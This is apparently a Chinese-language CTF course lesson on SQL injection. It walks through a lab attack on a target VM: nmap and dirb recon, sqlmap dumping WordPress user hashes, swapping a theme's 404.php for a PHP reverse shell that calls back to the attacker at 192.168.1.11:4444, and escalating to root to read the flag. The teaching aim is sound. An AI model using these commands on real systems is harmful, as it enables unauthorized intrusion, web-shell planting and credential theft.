# CTF入门课程：P15：CTF夺旗-sql注入

在本节课中，我们将学习CTF竞赛中一种非常常见且强大的攻击技术——SQL注入。我们将通过一个完整的实战案例，演示如何从发现注入点到最终获取目标服务器最高权限（root权限）并夺取Flag的全过程。

## 什么是SQL注入？

上一节我们介绍了课程目标，本节中我们来看看SQL注入的核心概念。

SQL注入攻击是指攻击者通过构造特殊的输入作为参数，传入Web应用程序。这些恶意输入会被程序当作SQL语句的一部分执行，从而使攻击者能够执行非授权的数据库操作。

其主要原因是程序没有对用户输入的数据进行细致的过滤，或者过滤不严格，导致非法数据侵入了系统。

**核心公式**：
`恶意用户输入` + `未过滤的数据库查询` = `SQL注入漏洞`

## 潜在的注入点

理解概念后，我们需要知道在哪里寻找漏洞。以下是可能成为SQL注入点的用户输入位置：
*   在URL中传递的参数（GET请求）。
*   在HTTP报文中通过POST方式传递的参数。

## 实验环境搭建

在开始实战前，我们需要明确攻击环境。本节将介绍本次实验所使用的环境配置。

*   **攻击机**：Kali Linux，IP地址为 `192.168.1.11`。
*   **靶机**：Ubuntu系统，IP地址为 `192.168.1.104`。

我们的目标是：挖掘靶机上的Web漏洞，通过SQL注入获取数据库信息，进而提升权限至root，最终找到并读取Flag。

## 第一步：信息收集

拿到靶机IP后，第一步是进行全面的信息探测，了解目标开放了哪些服务。

我们首先使用 `Nmap` 工具扫描靶机所有开放的端口。命令 `-T4` 表示使用最快速度，`-p-` 表示扫描所有端口。

```bash
nmap -sS -p- -T4 192.168.1.104
```

扫描过程需要一些时间。在等待期间，可以使用 `ping` 命令测试网络连通性。

扫描完成后，我们获得了开放的端口列表。为了获取更详细的信息（如服务版本、操作系统等），我们可以使用Nmap的全面扫描模式。

```bash
nmap -T4 -A -v 192.168.1.104
```

扫描结果显示靶机开放了80端口（HTTP）和8080端口（HTTP）。这意味着我们可以对这两个Web服务进行深入探测。

## 第二步：Web目录与敏感信息探测

发现Web服务后，下一步是探测网站目录结构，寻找隐藏文件、后台登录入口等敏感信息。

我们使用 `Nikto` 和 `Dirb` 两款工具分别对80端口进行探测。



以下是探测80端口的命令：
```bash
# 使用Nikto扫描
nikto -h http://192.168.1.104



# 使用Dirb进行目录暴力破解
dirb http://192.168.1.104
```





在扫描过程中，我们发现了一些有价值的信息：
1.  一个 `login.php` 文件（登录界面）。
2.  一个 `phpmyadmin` 目录（数据库管理后台）。
3.  在8080端口发现了 `wordpress` 目录，表明该站点可能由WordPress搭建。



## 第三步：漏洞扫描与分析



收集到初步信息后，我们需要使用自动化工具进行漏洞扫描，同时手动分析关键页面。

我们使用 `OWASP ZAP` 漏洞扫描器对80和8080端口进行扫描。扫描结果显示80端口未发现高危漏洞，但手动访问 `login.php` 时，发现这是一个潜在的注入点。

我们决定重点测试 `login.php` 页面是否存在SQL注入漏洞。

## 第四步：SQL注入实战



本节是课程的核心，我们将一步步演示如何利用SQL注入漏洞。



首先，我们需要捕获登录时提交的HTTP请求数据包。我们使用 `Burp Suite` 作为代理拦截请求。
1.  配置浏览器代理指向Burp Suite（如 `127.0.0.1:8081`）。
2.  在 `login.php` 页面输入测试账号（如admin/123456）并提交。
3.  在Burp Suite中拦截到该POST请求，将其内容保存为 `request.txt` 文件。

接下来，使用强大的自动化SQL注入工具 `sqlmap` 对这个请求进行测试。我们使用最高级别的检测模式，并指定数据库类型为MySQL。


```bash
sqlmap -r request.txt --level=3 --risk=3 --dbs --dbms=mysql --batch
```
命令执行后，`sqlmap` 成功识别出注入点并爆出了数据库名。我们发现了一个与8080端口WordPress站点相关的数据库。

紧接着，我们探测该数据库中的表、字段，最终获取到管理员账号的密码哈希值。
```bash
# 探测表名
sqlmap -r request.txt -D wordpress_db --tables
# 探测字段名
sqlmap -r request.txt -D wordpress_db -T wp_users --columns
# 获取字段值（用户名和密码）
sqlmap -r request.txt -D wordpress_db -T wp_users -C “user_login,user_pass” --dump
```



## 第五步：登录后台与上传WebShell

成功获取凭据后，我们利用得到的用户名和密码登录WordPress后台（通常地址为 `http://靶机IP:8080/wp-login.php`）。



登录后台后，我们的目标是上传一个WebShell，以获取对服务器的命令执行能力。在WordPress中，可以通过编辑主题模板文件（如 `404.php`）来插入恶意代码。



我们从Kali的 `/usr/share/webshells/php/` 目录获取一个PHP反向Shell脚本 `php-reverse-shell.php`，并修改其中的IP和端口为攻击机的监听地址（`192.168.1.11:4444`）。



然后，在WordPress后台的 `外观` -> `编辑` -> `404模板` 中，用我们修改好的反向Shell代码替换原有内容，并更新文件。

## 第六步：获取反向Shell与权限提升

WebShell上传成功后，我们在攻击机上启动Netcat监听4444端口。
```bash
nc -nlvp 4444
```

然后，通过浏览器访问我们上传的WebShell文件（如 `http://192.168.1.104:8080/wp-content/themes/twentythirteen/404.php`）。此时，Netcat会接收到一个来自靶机的反向Shell连接。

初始获得的Shell可能功能不全。我们使用Python将其升级为一个完全交互式的TTY Shell。
```python
python -c “import pty; pty.spawn(‘/bin/bash’)”
```

现在，我们拥有了靶机的一个命令行权限。通过查看 `/etc/passwd` 和 `/etc/shadow` 文件，我们发现了提示信息。尝试使用之前从数据库获取的密码切换到root用户。
```bash
su -
# 输入密码：Sup3rS3cr3tP4ssw0rd
```
切换成功！使用 `id` 命令确认，我们已获得root权限（UID=0）。最后，在root目录下找到并读取了Flag文件，完成了整个渗透测试流程。

## 总结

本节课我们一起学习了SQL注入攻击的完整链条。需要牢记的核心点是：**任何用户可输入的位置都可能成为注入点**，例如登录框、搜索框、URL参数等。

此外，还有一个重要的经验：自动化漏洞扫描器（如OWASP ZAP）的结果并非绝对准确。即使扫描器显示“无漏洞”，对关键页面（如登录、搜索）进行手工测试仍然是必不可少的步骤。



通过本次实战，我们掌握了从信息收集、漏洞发现（SQL注入）、利用漏洞获取数据、登录后台、上传WebShell到最终权限提升的全套流程，这是CTF竞赛和实际渗透测试中一项非常基础且关键的技能。